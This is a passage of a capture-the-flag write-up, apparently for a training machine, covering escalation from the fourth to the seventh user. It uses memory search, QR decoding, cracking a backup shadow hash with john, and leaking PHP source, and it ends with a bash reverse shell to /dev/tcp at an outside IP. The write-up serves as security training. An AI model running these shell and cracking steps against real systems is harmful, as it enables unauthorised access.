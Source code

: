 ```gdb
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gdb-peda$ find 'cuatro'
Searching for 'cuatro' in: None ranges
Found 1 results, display max 1 items:
mapped : 0x7ffff7ffb0bb ("cuatro:p3dr00l1v4r3z")
```
Now I've headed over again to ssh and got the flag4: ***flag4{1d6b06}***.

### Privesc to fifth user

Acording to the `todo.txt` in the home directory of cuatro we must switch again to port 80, but this time at the follwing url `/justanothergallery`. This challange seems to be based upon reading qr codes from images. So I've downloaded all images inside `cuatro` folder using `for i in {0..69}; do curl http://svoc.htb/justanothergallery/qr/image-$i.png --output image-$i.png; done` and than run the following script 
```python
#!/usr/bin/python3
from pyzbar.pyzbar import decode
from PIL import Image

all_words=""
for i in range(0,69):
    all_words += decode(Image.open('cuatro/image-{}.png'.format(i)))[0].data.decode('utf-8')
    all_words += " "
print(all_words)
```
Which outputs this text:
```
Hello and congrats for solving this challenge, we hope that you enjoyed the challenges we presented so far. It is time for us to increase the difficulty level and make the upcoming challenges more challenging than previous ones. Before you move to the next challenge, here are the credentials for the 5th user: cinco:ruy70m35 head over to this user and get your 5th flag! goodluck for the upcoming challenges!
```
From which we get the fifth set of credentials. Now we head over to recieve the flag5: ***flag5{b1e870}***

### Privesc to sixth user

Well this was an easy challange becase all we were supposed to do was to find a "hidden" file outside the home so we run this command `find / -user cinco -type d 2>&1 | grep -v "Permission denied"` and without looking to indepth we get at the end the following directory `/cincos-secrets`. Here there are two more files: `hint.txt` and `shadow.bak`. The second one seems to have the hash only for the user `seis` so it seems a little to obvious that we need to crack it. So I saved it and run john `john -w=/usr/share/wordlists/rockyou.txt hash` which after a few seconds found `Hogwarts`. When we switch the user we get the flag6: ***flag6{779a25}***

### Privesc to user seven

We have another web exploit in order to privesc. So basically we head over to `/shellcmsdashboard` and find the credentials. The only way in which I found a way to get the credentials without bruteforce was to leak the sourcecode. So I did a cut against `/var/www/html/shellcmsdashboard/index.php` and got `admin:qwerty`. Well it outputs `head over to /aabbzzee.php`. Here when we try to run something like `id` it outputs `uid=33(www-data) gid=33(www-data) groups=33(www-data)` so let's craft a reverse shell. This is what I've ended up with: `bash -c 'bash -i >& /dev/tcp/192.168.0.174/9001 0>&1'`. 
